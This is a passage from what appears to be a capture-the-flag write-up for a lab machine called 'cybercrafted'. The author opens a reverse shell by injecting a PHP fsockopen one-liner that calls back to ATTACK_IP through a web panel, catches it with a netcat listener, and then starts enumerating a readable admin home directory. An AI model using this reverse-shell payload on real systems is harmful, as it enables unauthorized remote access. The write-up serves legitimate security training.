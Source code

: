 ```
~# nc -lvnp 8080
Listening on [0.0.0.0] (family 0, port 8080)
```

Then I'll modify the php reverse shell script I snagged off of [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
php -r '$sock=fsockopen("ATTACK_IP",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
and paste into the panel.php page and click enter. Going back to the terminal, there is a successful connection!

```
~# nc -lvnp 8080
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 10.10.155.126 54646 received!
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ uname -a
Linux cybercrafted 4.15.0-159-generic #167-Ubuntu SMP Tue Sep 21 08:55:05 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ hostname
cybercrafted
```

Since this box has `python3`, I'll setup a more stable shell with python. You can follow this [guide](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) to do the same. Just remember to use `python3` instead of `python` when running the commands.


## **Lateral Movement**

I tend to view which users are on a machine when I first get onto a box. Checking out /home I find there are two users. 

```
www-data@cybercrafted:/var/www/admin$ ls -al /home
total 16
drwxr-xr-x  4 root                root                4096 Jun 27 17:50 .
drwxr-xr-x 24 root                root                4096 Sep 30 13:14 ..
drwxr-x---  4 cybercrafted        cybercrafted        4096 Sep 12 10:33 cybercrafted
drwxr-xr-x  5 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 4096 Oct 15 20:43 xxxxxxxxxxxxxxxxxxx
```

What's interesting here is the permission on the users folder. Even though this folder is owned by the admin, the permissions show that anyone can navigate into the admins home folder. So we'll do just that.

```
www-data@cybercrafted:/home/xxxxxxxxxxxxxxxxxxx$ ls -al
total 32
drwxr-xr-x 5 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 4096 Oct 15 20:43 .
drwxr-xr-x 4 root                root                4096 Jun 27 17:50 ..
lrwxrwxrwx 1 root                root                   9 Sep 12 10:38 .bash_history -> /dev/null
-rw-r--r-- 1 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx  220 Jun 27 09:19 .bash_logout
-rw-r--r-- 1 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 3771 Jun 27 09:19 .bashrc
drwx------ 2 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 4096 Jun 27 09:38 .cache
drwx------ 3 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 4096 Jun 27 09:38 .gnupg
-rw-rw-r-- 1 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx    0 Jun 27 17:40 .hushlogin
-rw-r--r-- 1 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx  807 Jun 27 09:19 .profile
drwxrwxr-x 2 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 4096 Jun 27 09:35 .ssh
lrwxrwxrwx 1 root                root                   9 Oct 15 20:43 .viminfo -> /dev/null
```
